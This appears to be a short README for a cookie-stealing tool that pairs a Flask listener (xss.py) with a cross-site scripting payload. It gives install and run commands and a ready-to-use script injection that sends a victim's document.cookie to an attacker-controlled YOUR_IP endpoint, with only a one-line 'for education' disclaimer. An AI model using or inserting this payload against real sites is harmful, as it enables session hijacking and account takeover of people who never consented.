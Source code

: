 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><script>document.location="http://YOUR_IP/cookie?cookie=" + document.cookie </script>
  ````
  
# How use it :
<h4><a href='https://www.youtube.com/watch?v=gJ6D60jeai8&t=3s' target='_blank'>Help</a></h4>

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook  : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>
- Hackerone : <a href="http://hackerone.com/knassar702">Khaled Nassar</a>


